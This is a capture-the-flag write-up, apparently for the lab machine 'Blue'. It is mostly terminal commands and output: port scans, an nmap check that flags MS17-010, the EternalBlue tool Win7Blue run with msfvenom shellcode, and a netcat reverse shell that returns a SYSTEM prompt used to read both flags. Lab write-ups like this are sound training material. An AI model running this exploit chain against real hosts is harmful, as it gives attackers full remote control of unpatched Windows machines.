

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Blue


```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.40 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 16:59 CET
Nmap scan report for 10.10.10.40
Host is up (0.076s latency).
Not shown: 64302 closed tcp ports (reset), 1224 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 25.76 seconds
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.40
	[*] Open ports: 135,139,445,49152,49153,49154,49155,49156,49157

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 17:03 CET
Nmap scan report for 10.10.10.40
Host is up (0.11s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (98%), Microsoft Windows 7 or Windows Server 2008 R2 or Windows 8.1 (97%), Microsoft Windows Server 2012 R2 (96%), Microsoft Windows 7 SP1 (95%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 (95%), Microsoft Windows Windows 7 SP1 (95%), Microsoft Windows Vista Home Premium SP1, Windows 7, or Windows Server 2008 (95%), Microsoft Windows Vista SP1 (94%), Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1 (94%), Microsoft Windows 7 or Windows Server 2008 R2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-24T16:04:40+00:00
|_clock-skew: mean: 6s, deviation: 1s, median: 5s
| smb2-time: 
|   date: 2025-01-24T16:04:39
|_  start_date: 2025-01-24T15:56:41
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   152.17 ms 10.10.16.1
2   54.54 ms  10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.20 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ nmap -p 139,445 -vv -Pn --script=smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse 10.10.10.40
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 17:20 CET
NSE: Loaded 7 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 1) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 0.03s elapsed
Initiating SYN Stealth Scan at 17:20
Scanning 10.10.10.40 [2 ports]
Discovered open port 445/tcp on 10.10.10.40
Discovered open port 139/tcp on 10.10.10.40
Completed SYN Stealth Scan at 17:20, 0.29s elapsed (2 total ports)
NSE: Script scanning 10.10.10.40.
NSE: Starting runlevel 1 (of 1) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 7.58s elapsed
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.19s latency).
Scanned at 2025-01-24 17:20:37 CET for 8s

PORT    STATE SERVICE      REASON
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 1) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 8.08 seconds
           Raw packets sent: 2 (88B) | Rcvd: 2 (88B)
```


```bash
❯ nxc smb 10.10.10.40
SMB         10.10.10.40     445    HARIS-PC         [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:HARIS-PC) (domain:haris-PC) (signing:False) (SMBv1:True)
```


```bash
❯ git clone https://github.com/d4t4s3c/Win7Blue; cd Win7Blue
Clonando en 'Win7Blue'...
remote: Enumerating objects: 497, done.
remote: Counting objects: 100% (154/154), done.
remote: Compressing objects: 100% (111/111), done.
remote: Total 497 (delta 88), reused 81 (delta 43), pack-reused 343 (from 1)
Recibiendo objetos: 100% (497/497), 2.32 MiB | 2.03 MiB/s, listo.
Resolviendo deltas: 100% (279/279), listo.

❯ chmod +x Win7Blue

❯ ./Win7Blue
```


```bash

┌═══════════════════════════════════┐
║  ██╗    ██╗██╗███╗   ██╗███████╗  ║
║  ██║    ██║██║████╗  ██║╚════██║  ║
║  ██║ █╗ ██║██║██╔██╗ ██║    ██╔╝  ║
║  ██║███╗██║██║██║╚██╗██║   ██╔╝   ║
║  ╚███╔███╔╝██║██║ ╚████║   ██║    ║
║   ╚══╝╚══╝ ╚═╝╚═╝  ╚═══╝   ╚═╝    ║
║ ██████╗ ██╗     ██╗   ██╗███████╗ ║
║ ██╔══██╗██║     ██║   ██║██╔════╝ ║
║ ██████╔╝██║     ██║   ██║█████╗   ║
║ ██╔══██╗██║     ██║   ██║██╔══╝   ║
║ ██████╔╝███████╗╚██████╔╝███████╗ ║
║ ╚═════╝ ╚══════╝ ╚═════╝ ╚══════╝ ║
║ [+]  EternalBlue -- MS17-010  [+] ║
└═══════════════════════════════════┘

 [1] Scanner Vuln [Nmap]
 [2] Scanner Arch [NetExec]
 [3] Exploit Win7 [32 bits]
 [4] Exploit Win7 [64 bits]
 [5] Exit

 $   4

¿RHOST? 10.10.10.40

¿LHOST? 10.10.16.5

¿LPORT? 443

[i] Creating SHELLCODE with MSFVENOM...

[i] Please start NETCAT listener: nc -lvnp 443

press ENTER to continue...
```


```
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```


```bash
┌═══════════════════════════════════┐
║  ██╗    ██╗██╗███╗   ██╗███████╗  ║
║  ██║    ██║██║████╗  ██║╚════██║  ║
║  ██║ █╗ ██║██║██╔██╗ ██║    ██╔╝  ║
║  ██║███╗██║██║██║╚██╗██║   ██╔╝   ║
║  ╚███╔███╔╝██║██║ ╚████║   ██║    ║
║   ╚══╝╚══╝ ╚═╝╚═╝  ╚═══╝   ╚═╝    ║
║ ██████╗ ██╗     ██╗   ██╗███████╗ ║
║ ██╔══██╗██║     ██║   ██║██╔════╝ ║
║ ██████╔╝██║     ██║   ██║█████╗   ║
║ ██╔══██╗██║     ██║   ██║██╔══╝   ║
║ ██████╔╝███████╗╚██████╔╝███████╗ ║
║ ╚═════╝ ╚══════╝ ╚═════╝ ╚══════╝ ║
║ [+]  EternalBlue -- MS17-010  [+] ║
└═══════════════════════════════════┘

 [1] Scanner Vuln [Nmap]
 [2] Scanner Arch [NetExec]
 [3] Exploit Win7 [32 bits]
 [4] Exploit Win7 [64 bits]
 [5] Exit

 $   4

¿RHOST? 10.10.10.40

¿LHOST? 10.10.16.5

¿LPORT? 443

[i] Creating SHELLCODE with MSFVENOM...

[i] Please start NETCAT listener: nc -lvnp 443

press ENTER to continue...

[+] Launching Exploit

shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```


```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

...[snip]...

C:\Users\haris\Desktop>type user.txt
type user.txt
1b17027eccc07e0956b921bab19de9df

C:\Users\haris\Desktop>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
c65daeb7865ac117f87295bacf466a6c
```
